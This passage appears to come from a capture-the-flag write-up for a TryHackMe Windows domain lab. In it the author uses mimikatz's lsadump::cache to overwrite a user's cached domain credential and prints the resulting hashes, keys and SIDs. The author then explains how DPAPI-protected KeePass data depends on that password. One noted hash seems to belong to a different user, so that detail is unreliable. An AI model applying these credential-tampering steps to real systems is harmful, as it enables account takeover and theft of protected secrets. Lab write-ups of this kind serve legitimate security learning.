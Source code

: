 After extracting her hash, I run a dictionary attack with rockyou and hashkiller-dict-2020-01-26 wordlist. (hashkiller-dict has 266,518,036 passwords) but I still can't crack the hash, so overwrite it is

```
mimikatz # lsadump::cache /user:chajoh /password:Password123# /kiwi
> User cache replace mode !
  * user     : chajoh
  * password : Password123#
  * ntlm     : 7a1762d79c21e263eae080fadbb03429

Domain : OSIRIS
SysKey : fb2f42c056c3a91c3f8892df313f2481

Local name : OSIRIS ( S-1-5-21-2412384816-2079449310-1594074140 )
Domain name : WINDCORP ( S-1-5-21-555431066-3599073733-176599750 )
Domain FQDN : windcorp.thm

Policy subsystem is : 1.18
LSA Key(s) : 1, default {04097fcd-7247-4e79-b35b-2a7d5fee2779}
  [00] {04097fcd-7247-4e79-b35b-2a7d5fee2779} 0d155c51e747c1119d69e11e96f37364aaaa190673e7ccb1321a931636b166c2

* Iteration is set to default (10240)

[NL$1 - 9/19/2020 1:38:15 AM]
RID       : 00000465 (1125)
User      : WINDCORP\chajoh
MsCacheV2 : ef776e82446836a67b699ba8b010aba6
> User cache replace mode (2)!
  MsCacheV2 : 2cae01963f60b1f0f014b491e5f945c5
  Checksum  : 888dcf10676db1b67aade658e65e6458
> OK!

[NL$2 - 9/12/2020 4:14:18 AM]
RID       : 0000168a (5770)
User      : WINDCORP\shelweb
MsCacheV2 : c5e541582794b0a92f813ec250f3a3a6

[NL$3 - 10/3/2020 1:19:49 AM]
RID       : 00000573 (1395)
User      : WINDCORP\alcrez
MsCacheV2 : d314d29973862ad7d8166ba7999cbf2d
```
After overwrite the hash we need to note the password NTLM hash `d314d29973862ad7d8166ba7999cbf2d`

But if we do this, we can no longer access the KeePass database even if we are login as `chajoh` because the KeePass database is protected by DPAPI (Data Protection API)

The MasterKey in DPAPI was encrypted using `chajoh` password, so when we overwrite her password, the MasterKey can no longer unlock

So now we need to recreate the user MasterKey with the Backup DPAPI Key from their domain controller: [Ra](https://tryhackme.com/room/ra)
